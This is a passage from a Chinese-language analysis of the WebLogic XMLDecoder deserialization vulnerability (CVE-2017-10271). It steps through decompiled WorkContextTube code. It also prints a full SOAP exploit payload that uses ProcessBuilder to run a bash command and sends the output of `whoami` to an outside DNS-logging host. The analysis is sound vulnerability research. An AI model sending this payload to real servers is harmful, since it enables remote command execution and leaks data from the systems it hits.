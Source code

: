         return super.processRequest(var1);
    }

将var3传递给readHeaderOld(var3)，继续跟进readHeaderOld。

var1的值:

    com.sun.xml.ws.api.message.Packet@4419bacb Content: <?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
    <void index="0">
    <string>/bin/bash</string>
    </void>
    <void index="1">
    <string>-c</string>
    </void>
    <void index="2">
    <string>ping `whoami`.7153b738c41fxxxxxxaadf9dbd46.tu4.org</string>
    </void>
    </array>
    <void method="start"/></void>
    </java>
    </work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId31.png)

WorkContextTube.class

    protected void readHeaderOld(Header var1) {
        try {
            XMLStreamReader var2 = var1.readHeader();
            var2.nextTag();
            var2.nextTag();
            XMLStreamReaderToXMLStreamWriter var3 = new XMLStreamReaderToXMLStreamWriter();
            ByteArrayOutputStream var4 = new ByteArrayOutputStream();
            XMLStreamWriter var5 = XMLStreamWriterFactory.create(var4);
            var3.bridge(var2, var5);
            var5.close();
            WorkContextXmlInputAdapter var6 = new WorkContextXmlInputAdapter(new ByteArrayInputStream(var4.toByteArray()));
            this.receive(var6);
        } catch (XMLStreamException var7) {
            throw new WebServiceException(var7);
        } catch (IOException var8) {
            throw new WebServiceException(var8);
        }
    }

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-10271)WeblogicXMLDecoder反序列化漏洞/media/rId32.png)
